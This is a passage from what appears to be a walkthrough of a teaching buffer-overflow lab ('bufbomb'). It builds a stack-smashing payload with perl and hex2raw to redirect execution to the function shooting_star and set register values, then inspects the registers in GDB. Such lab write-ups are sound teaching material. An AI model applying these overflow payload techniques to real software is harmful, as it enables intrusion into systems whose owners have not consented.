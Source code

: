 In our case that concerns in dl, it means we're looking for register edx and dl itself refers to the right most content of register %edx (8 bit). 

So, as we've already known the content of register %edx (0xf7fba000), we can conclude that the right most 8 bit is the right most two digits of hexadecimal representation, namely 00. That two digits must be changed into 59. So, the final value of register %edx should be 0xf7fba059.  

Ok, let's start the exploit!

Let's quit from GDB by typing command **q** and type this command:

> perl -e 'print "61 "x32, "62 "x20, "77 8b 04 08 ", "63 "x4, "59 "x1, "64 "x3, "65 "x4, "24 d8 9e 1d"' > hex0<br />
> ./hex2raw < hex0 > raw0<br />

Then let's go back into GDB with these commands:

> gdb bufbomb<br />
> (gdb) b shooting_star<br />
> Breakpoint 1 at 0x8048b77<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048b77 in shooting_star ()<br />
> (gdb) ni<br />
> (gdb) ni<br />
> (gdb) ni<br />
> (gdb) ni<br />
> (gdb) i r<br />

Info registers | |
--- | --- | ---
eax      |     0x1d9ed824  |  496949284
ecx      |     0xf7fbb8a4  |  -134498140
edx      |     0x64646459  |  1684300889
ebx      |     0x0  |  0
esp      |     0x5568366c  |  0x5568366c <_reserved+1037932>
ebp      |     0x55685ff0  |  0x55685ff0 <_reserved+1048560>
esi      |     0x3  |  3
edi      |     0x0  |  0
eip      |     0x8048b88   |  0x8048b88 <shooting_star+17>
eflags   |     0x246  |  [ PF ZF IF ]
cs       |     0x23   |   35
ss       |     0x2b   |   43
ds       |     0x2b   |   43
es       |     0x2b   |   43
fs       |     0x0    |   0
gs       |     0x63   |   99

Great! As we can see, after we execute the command for filling the register %edx and %eax, the content of register %eax is our cookie and the **dl** value of register %edx is 59. Now let's see the stack's condition. Use this command:

> (gdb) x/20x $esp<br />
